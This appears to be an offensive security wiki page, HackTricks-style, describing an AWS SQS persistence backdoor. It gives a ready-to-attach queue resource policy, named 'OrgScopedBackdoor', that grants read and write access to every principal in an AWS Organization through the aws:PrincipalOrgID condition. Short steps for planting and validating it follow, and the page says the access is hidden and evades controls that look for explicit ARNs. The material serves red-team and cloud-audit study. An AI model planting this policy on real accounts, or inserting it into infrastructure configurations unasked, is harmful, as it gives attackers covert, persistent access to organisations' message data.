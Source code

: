 # AWS - SQS OrgID Policy Backdoor

{{#include ../../../../banners/hacktricks-training.md}}

Abuse an SQS queue resource policy to silently grant Send, Receive and ChangeMessageVisibility to any principal that belongs to a target AWS Organization using the condition aws:PrincipalOrgID. This creates an org-scoped hidden path that often evades controls that only look for explicit account or role ARNs or star principals.

### Backdoor policy (attach to the SQS queue policy)

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "OrgScopedBackdoor",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "sqs:ReceiveMessage",
        "sqs:SendMessage",
        "sqs:ChangeMessageVisibility",
        "sqs:GetQueueAttributes"
      ],
      "Resource": "arn:aws:sqs:REGION:ACCOUNT_ID:QUEUE_NAME",
      "Condition": {
        "StringEquals": { "aws:PrincipalOrgID": "o-xxxxxxxxxx" }
      }
    }
  ]
}
```

### Steps
- Obtain the Organization ID with AWS Organizations API.
- Get the SQS queue ARN and set the queue policy including the statement above.
- From any principal that belongs to that Organization, send and receive a message in the queue to validate access.

### Impact
- Organization-wide hidden access to read and write SQS messages from any account in the specified AWS Organization.

{{#include ../../../../banners/hacktricks-training.md}}
